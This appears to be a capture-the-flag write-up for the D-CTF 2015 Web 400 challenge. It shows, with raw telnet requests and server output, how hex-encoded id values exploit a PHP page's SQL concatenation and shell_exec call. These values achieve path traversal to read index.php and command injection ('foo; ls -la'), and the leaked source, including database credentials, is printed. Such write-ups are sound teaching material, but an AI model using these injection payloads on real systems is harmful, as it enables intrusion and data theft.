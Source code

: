 ## D-CTF 2015 - CSS Engineer (Web 400)
##### 02/10 - 04/10/2015 (36hr)
___

### Description:  
http://10.13.37.5
___
### Solution

We start by playing around with id and usr parameters. If we look at the source code we will see
a php file being the source of an image. Hmmmm how this code could be? the php should have something
like this:
```
    <?php
        header('Content-Type: image/jpeg');
        readfile('some_image.jpg');
    ?>
```

Let's use telnet to inspect what's going on:
```
root@vasilikoula:~/ctf/dctf# telnet 10.13.37.5 80
    Trying 10.13.37.5...
    Connected to 10.13.37.5.
    Escape character is '^]'.
    GET /?id=3&usr=1   

    cat: images/3_6.jpg: No such file or directory
    Connection closed by foreign host.
```
id=3 and usr=1 is trying to open image 3_6.jpg. After a while we find the pattern:
id is the first part of the file name. Then an underscore follows and finally a number
which depends on usr:
```
    switch( usr )
    {
    	case 1: name .= "6.jpg"
    	case 2: name .= "267.jpg"
    	case 3: name .= "269.jpg"
    	case 4: name .= "271.jpg"
    }
```
We can't do much with usr, so we should focus on id. Lets start "fuzzing" it: 
```
    (echo -e "GET /?id=999999999999999&usr=1 HTTP/1.0\n\n"; sleep 0.5) | telnet 10.13.37.5 80
```
The above command returns the error:
    images/999999999999999_6.jpg: No such file or directory

Id parameter is "reflected". However id must be numeric. If we supply an non-numeric value, we'll
get the error "ID or User ID must be numeric". However if we supply hex literals we'll some 
interesting things:
```
root@vasilikoula:~/ctf/dctf# (echo -e "GET /?id=0x3336&usr=1 HTTP/1.0\n\n"; sleep 0.5) 
                            | telnet 10.13.37.5 80
    Trying 10.13.37.5...
    Connected to 10.13.37.5.
    Escape character is '^]'.
    HTTP/1.1 200 OK
    Date: Sun, 04 Oct 2015 03:57:13 GMT
    Server: Apache/2.4.7 (Ubuntu)
    X-Powered-By: PHP/5.5.9-1ubuntu4.13
    Content-Length: 48
    Connection: close
    Content-Type: image/jpeg

    cat: images/36_6.jpg: No such file or directory
    Connection closed by foreign host.
```
Ok, got the point. Let's read index.php: "../index.php" -> 0x2e2e2f696e6465782e70687000
```
root@vasilikoula:~/ctf/dctf# (echo -e "GET /?id=0x2e2e2f696e6465782e70687000&usr=1 HTTP/1.0\n\n"; sleep 0.5) 
                            | telnet 10.13.37.5 80
Trying 10.13.37.5...
Connected to 10.13.37.5.
Escape character is '^]'.
HTTP/1.1 200 OK
Date: Sun, 04 Oct 2015 03:58:19 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.13
Connection: close
Content-Type: image/jpeg
WmzWZmPH7PZJtxOyff[..... TRUNCATED FOR BREVITY .....]Ugo5KtCkuSv8AAF
```
```
<?php

// ini_set('display_errors',1);
// error_reporting(E_ALL);

mysql_connect('localhost','w400', 'lajsflkjaslfjasklfj10412497128') or die('neah');
mysql_select_db('w400');

if(isset($_GET['id'], $_GET['usr'])) {

    if(!is_numeric($_GET['id']) || !is_numeric($_GET['usr'])) {
        die('ID or User ID must be numeric, obviously. Cheers from Bucharest, awesome girls, smoke free. :-) <br><img src="data:image/jpeg;base64,/9j/4AAQSkZJRgABA[..... TRUNCATED FOR BREVITY .....]1zPsUtJJokWJn/2Q==">');
    }

    $q = mysql_query('SELECT concat('.$_GET['id'].',"_",image) as path FROM images WHERE id="'.$_GET['usr'].'"');
    $path = mysql_result($q, 0);

    header('Content-Type: image/jpeg');
    echo shell_exec("cat images/$path 2>&1");
} else {
    echo '<h1>List of some users! I don\'t know CSS! :(</h1>';
    $q = mysql_query('SELECT * FROM `images`');
    while($row = mysql_fetch_array($q)) {
        echo '<h3>'.$row['user'].'</h3>';
        echo '<img src="?id='.$row['id'].'&usr='.$row['id'].'">';
    }
}
cNYXndfWopzZp0Hwl[..... TRUNCATED FOR BREVITY .....]JEnxqUZ8rXH9thbbeetl5
Connection closed by foreign host.
```

We have the code now. The interesting part is the following lines:
```
    q = mysql_query('SELECT concat('.$_GET['id'].',"_",image) as path FROM images WHERE id="'.$_GET['usr'].'"');
    $path = mysql_result($q, 0);

    echo shell_exec("cat images/$path 2>&1");
```

If we supply and id with spaces the result will be the following:
```
root@vasilikoula:~/ctf/dctf# (echo -e "GET /?id=0x61206220632064&usr=2 HTTP/1.0\n\n"; sleep 0.5) 
                | telnet 10.13.37.5 80
    Trying 10.13.37.5...
    Connected to 10.13.37.5.
    Escape character is '^]'.
    HTTP/1.1 200 OK
    Date: Sun, 04 Oct 2015 04:13:33 GMT
    Server: Apache/2.4.7 (Ubuntu)
    X-Powered-By: PHP/5.5.9-1ubuntu4.13
    Content-Length: 151
    Connection: close
    Content-Type: image/jpeg

    cat: images/a: No such file or directory
    cat: b: No such file or directory
    cat: c: No such file or directory
    cat: d_267.jpg: No such file or directory
    Connection closed by foreign host.
```
The multiple files is a consequence of cat command. Now we can manipulate $path which means that 
we can execute arbitrary commands :)

Let's execute an ls: "foo; ls -la"
```
root@vasilikoula:~/ctf/dctf# (echo -e "GET /?id=0x666f6f3b206c73202d6c6100&usr=2 HTTP/1.0\n\n"; 
                        sleep 0.5) | telnet 10.13.37.5 80
    Trying 10.13.37.5...
    Connected to 10.13.37.5.
    Escape character is '^]'.
    HTTP/1.1 200 OK
    Date: Sun, 04 Oct 2015 04:16:22 GMT
    Server: Apache/2.4.7 (Ubuntu)
    X-Powered-By: PHP/5.5.9-1ubuntu4.13
    Content-Length: 330
    Connection: close
    Content-Type: image/jpeg

    total 44
    drwxr-xr-x 3 root root  4096 Oct  3 16:15 .
    drwxr-xr-x 3 root root  4096 Oct  1 22:08 ..
    -rw-r--r-- 1 root root    17 Oct  1 22:20 .htaccess
    -rw-r--r-- 1 root root    38 Oct  1 22:14 6e8218531e0580b6754b3e3be5252873.txt
    drwxrwxr-x 2 root root  4096 Oct  1 22:14 images
    -rw-r--r-- 1 root root 21392 Oct  1 22:17 index.php
    Connection closed by foreign host.
```
All we have to do is to access that strange file:

http://10.13.37.5/6e8218531e0580b6754b3e3be5252873.txt


**DCTF{19b1f9f19688da85ec52a735c8da0dd3}**
___